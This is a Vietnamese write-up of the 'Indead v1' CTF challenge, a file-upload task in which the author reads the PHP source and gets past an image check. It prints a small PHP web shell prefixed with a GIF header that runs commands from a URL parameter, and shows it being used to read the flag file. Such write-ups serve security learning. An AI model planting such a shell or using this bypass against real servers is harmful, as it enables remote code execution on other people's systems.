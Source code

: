 # Indead v1

## Description

Job posting website for security experts, pentesters and hackers. http://indead-upload-avatar.ctf2021.hackpack.club

## Point 

50 point

## Hint

flag.txt is located in /var/www/

## Solution

Đây là một bài upload file , nó chỉ cho phép upload lên ảnh :

![IMG](image/img4.png)

Sau khi thử scan web với dirsearch tôi tìm thấy một số file robots.txt, core.php, index.php.

> robots.txt
```
User-agent: *
Disallow: /*phps$ 
```

Điều này có nghĩa là ta có thể xem source code các file php dưới định dạng phps.

> index.phps

```
<?php
require_once('core.php');
?>

<!doctype html>
<html lang="en" class="h-100">

<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="generator" content="Hugo 0.80.0">
    <title>Indead · Hackpack CTF-2021</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/css/bootstrap.min.css"
        integrity="sha384-B0vP5xmATw1+K9KRQjQERJvTumQW0nPEzvF6L/Z6nronJ3oUOFUFpCjEUQouq2+l" crossorigin="anonymous">
    <meta name="theme-color" content="#563d7c">


    <style>
        .bd-placeholder-img {
            font-size: 1.125rem;
            text-anchor: middle;
            -webkit-user-select: none;
            -moz-user-select: none;
            -ms-user-select: none;
            user-select: none;
        }

        @media (min-width: 768px) {
            .bd-placeholder-img-lg {
                font-size: 3.5rem;
            }
        }
    </style>
</head>

<body class="d-flex flex-column h-100">
    <nav class="navbar navbar-expand-lg navbar-light bg-light">
    <a class="navbar-brand" href="/">
        <img src="img/logo.svg" alt="Indead Logo" class="img-fluid" style="height: 60px">
    </a>
    <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
        <span class="navbar-toggler-icon"></span>
    </button>
    <div class="collapse navbar-collapse" id="navbarNav">
        <ul class="navbar-nav">
        <li class="nav-item active">
            <a class="nav-link" href="/">Home</a>
        </li>
        </ul>
    </div>
    </nav>
    <!-- Begin page content -->
    <main role="main" class="flex-shrink-0">
        <div class="container">
            <h1 class="mt-5">Indead</h1>

            <p class="lead">Job postings for security experts, pentesters & hackers.<br>
                Upload your picture so that our cool AI can find the best fit for you.</p>


            <form action="/" method="POST" enctype="multipart/form-data">
                <? if ( isset ($error) && $error !== '') {?> 
                <div class="alert alert-danger">
                <p>
                <? echo $error; ?>
                </p>
                </div>
                <? } ?>
                <div class="form-row">
                    <div class="form-group col-md-6">
                        <input type="file" name="avatar">
                    </div>
                </div>
                <button type="submit" class="btn btn-success">Upload picture</button>
            </form>
        </div>
        <? if ($_SERVER['REQUEST_METHOD'] === 'POST') { ?>
        <div class="container mt-5">
            <div class="row">
                <div class="col-12">
                <? if ($uploadOk == 1) { ?>
                    <h1>Thanks for uploading picture</h1>
                    <img src="<? echo $target_file; ?>" alt="your uploaded avatar" style="height: 100px; width: 100px" class="rounded-circle">
                    <div class="row">
                        <div class="col-12">
                            <? 
                                $content = file_get_contents('positions.json');
                                $positions = json_decode($content, true);
                                // var_dump($positions);
                                foreach ($positions as $key => $value) {
                            ?>
                                <div class="card my-3">
                                    <div class="card-body">
                                        <h4 class="card-title">
                                            <? echo $key;?>
                                        </h4>
                                        <h6 class="card-subtitle text-muted mb-2">
                                            Location: <? echo $value['location'];?> | Salary: <? echo $value['salary'];?>
                                        </h6>
                                        <p class="card-text">
                                            <? echo $value['description'];?>
                                        </p>
                                    </div>
                                </div>
                            <?    } 
                            ?>
                        </div>
                    </div>
                <? } else { ?>
                    <h1>Upload was not successful. Try again</h1>
                <? } ?>
                </div>
            </div>
        </div>
        <? } ?>
    </main>

    <footer class="footer mt-auto py-3">
        <div class="container">
            <span class="text-muted">Hackpack CTF 2021</span>
        </div>
    </footer>
</body>

</html>
```

> core.phps

```
<?php 

$uploadOk = 0;
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $filename = basename($_FILES["avatar"]["name"]);
    $target_dir = "very_long_directory_path/";
    $target_file = $target_dir . $filename;
    
    // Check if image file is a actual image or fake image
    $check = getimagesize($_FILES["avatar"]["tmp_name"]);
    if($check === false) {
        exit(sprintf('%s is not an image', $filename));
    }

    // Check file size
    if ($_FILES["avatar"]["size"] > 500000) {
        exit(sprintf('%s is too large', $filename));
    }

    if (move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file)) {
        $uploadOk = 1;
    } else {
        exit("Sorry, there was an error uploading your file.");
    }

}
?>
```

Không có gì đáng nói ở trong file index.php, tuy nhiên ta có thể thấy một đoạn code có dạng :

```
$filename = basename($_FILES["avatar"]["name"]);
    $target_dir = "very_long_directory_path/";
    $target_file = $target_dir . $filename;
```

Ta có thể thấy khi upload file nên file sẽ được lưu tại đường dẫn  very_long_directory_path/file_name .

Tôi thử tải lên một file shell.php và truy cập vào đường dẫn tương ứng thì có một lỗi được hiện lên .

![IMG](image/img5.png)

Sau một hồi google search thì tôi đã tìm thấy một payload (https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
OK, sửa lại file shell và upload sau đó RCE.

> shell.php
```
GIF89a;
<?
   if(isset($_GET['cmd'])){
     $output = system($_GET['cmd']);
?>
```
> ?cmd=cat /var/www/flag.txt
## Flag

flag{y3t_an0ther_file_uplo@d_vuln}


